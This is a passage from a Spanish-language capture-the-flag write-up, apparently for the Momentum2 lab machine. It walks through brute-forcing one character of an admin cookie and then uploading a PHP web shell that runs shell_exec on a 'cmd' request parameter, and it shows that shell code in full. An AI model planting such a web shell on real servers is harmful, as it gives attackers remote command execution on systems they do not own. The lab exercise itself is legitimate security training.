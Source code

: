 Esto va ir probando cada letra que agreguemos, hasta dar con la correcta, pero para que nos devuelva el resultado que queremos, debemos hacer lo siguiente:

![img](/assets/img/post/momentum2/b.png)

Iniciamos el ataque.

![img](/assets/img/post/momentum2/ata.png)

Miramos que la peticion con la letra R, fue exitosa, por lo que la agregamos a la cookie admin. 

Aprovechamos y agregamos nuestro codigo php para generar una reverse shell.
```php
<?php 
  echo "<pre>" . shell_exec($_GET['cmd']) . "</pre>";
?>
```
Despues de enviar esta peticion nos devuelve "1", por lo que el archivo php fue subido de forma exitosa.
